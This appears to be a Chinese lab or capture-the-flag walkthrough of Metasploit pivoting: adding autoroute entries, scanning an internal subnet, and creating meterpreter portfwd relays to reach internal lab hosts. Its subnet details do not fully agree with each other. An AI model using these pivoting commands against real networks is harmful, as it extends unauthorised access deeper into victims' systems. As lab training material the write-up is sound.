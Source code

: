 # 第一层内网穿透
## 实验环境
- 靶机ip：192.168.157.131
- 攻击机ip：192.168.93.130
## 实验步骤
在反弹shell成功获取flag后配置路由并放置后台运行
```bash
run get_local_subnets
run autoroute -s 10.10.20.0/24
run autoroute -p
bg
```
![](./img/配置路由.png)

接下来使用msf的工具进行端口扫描
```bash
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        80,8888,10000    yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       192.170.84.1-255  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   THREADS      10               yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds
```
![](./img/端口扫描.png)

可以发现存在5个端口服务，逐一配置端口映射
```

meterpreter > portfwd add -L 192.168.93.130 -l 9001 -p 80 -r 192.170.84.1
[*] Forward TCP relay created: (local) 192.168.93.130:9001 -> (remote) 192.170.84.1:80
meterpreter > portfwd add -L 192.168.93.130 -l 9002 -p 8888 -r 192.170.84.2
[*] Forward TCP relay created: (local) 192.168.93.130:9002 -> (remote) 192.170.84.2:8888
meterpreter > portfwd add -L 192.168.93.130 -l 9003 -p 10000 -r 192.170.84.3
[*] Forward TCP relay created: (local) 192.168.93.130:9003 -> (remote) 192.170.84.3:10000
meterpreter > portfwd add -L 192.168.93.130 -l 9004 -p 80 -r 192.170.84.4
[*] Forward TCP relay created: (local) 192.168.93.130:9004 -> (remote) 192.170.84.4:80
meterpreter > portfwd add -L 192.168.93.130 -l 9005 -p 80 -r 192.170.84.5
[*] Forward TCP relay created: (local) 192.168.93.130:9005 -> (remote) 192.170.84.5:80
meterpreter > portfwd list
```
![](./img/配置端口映射.png)

此时网络结构如下图所示
![](./img/前两层拓扑结构.png)

接下来在攻击机中或者本机中输入对应ip即可以访问三个容器
![](./img/9002.png)
![](./img/9003.png)
![](./img/9004.png)
